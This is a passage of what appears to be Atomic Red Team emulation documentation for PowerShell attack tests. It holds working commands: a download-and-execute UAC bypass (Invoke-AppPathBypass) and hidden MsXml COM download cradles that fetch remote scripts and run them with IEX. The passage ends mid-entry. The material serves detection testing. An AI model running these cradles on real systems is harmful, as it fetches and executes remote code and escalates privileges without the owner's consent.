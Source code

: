 <br/>
<br/>

## Atomic Test #5 - Invoke-AppPathBypass

Note: Windows 10 only
Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/
Upon execution windows backup and restore window will be opened

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!

```cmd
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/a0dfca7056ef20295b156b8207480dc2465f94c3/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass -Payload 'C:\Windows\System32\cmd.exe'"
```

<br/>
<br/>

## Atomic Test #6 - Powershell MsXml COM object - no prompt

Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell MsXml COM object.
Not proxy aware removing cache although does not appear to write to those locations

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1|

#### Attack Commands: Run with `command_prompt`!

```cmd
powershell.exe IEX -exec bypass -windowstyle hidden -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

<br/>
<br/>

## Atomic Test #7 - Powershell MsXml COM object - with prompt

Powershell MsXml COM object. Not proxy aware, removing cache although does not appear to write to those locations. Upon
execution, "Download Cradle test success!" will be displayed.

Provided by https://github.com/mgreen27/mgreen27.github.i
